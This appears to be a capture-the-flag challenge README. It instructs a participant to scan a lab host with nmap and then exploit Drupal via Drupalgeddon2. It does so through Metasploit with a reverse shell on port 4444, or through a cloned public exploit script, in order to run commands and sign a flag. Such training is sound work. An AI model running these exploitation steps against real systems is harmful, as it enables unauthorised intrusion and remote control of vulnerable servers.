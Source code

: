 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

#### Nmap
Install nmap.

For Debian/Ubuntu:

`apt-get install nmap`
 
For RedHat/CentOS:

`sudo yum install nmap`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports.
* `-PS`, `-PA`, `-PU` {PORT_NUMBERS}: Replace it with the ports to scan. TCP SYN/ACK or 
UDP discovery.
* `-sV`: Determine service and version info.
* `-O`: Determine OS info. 
* `-A`: Determine service/version and OS info.
* `-script` {SCRIPT_NAME}: Start the scan with the given script.
* `--script` {SCRIPT_LIST}: Start the scan with the given scripts.

For a detailed list of all parameters availible please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

#### Metasploit
If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the meterpreter to run. 

Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results, in this challenge look for Drupal exploits

`search drupal`

Select the Drupalgeddon2 exploit from the list

`use exploit/unix/webapp/drupal_drupalgeddon2`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`
`set RPORT <port>`
`set LHOST <remote IP of Metasploit machine>`
`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use the public exploit available here: https://github.com/dreadlocked/Drupalgeddon2

First, you need to clone the repository into your attacker's machine:

`git clone https://github.com/dreadlocked/Drupalgeddon2`

Go to the project folder and install the library dependencies:

`cd Drupalgeddon2`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./drupalgeddon2.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

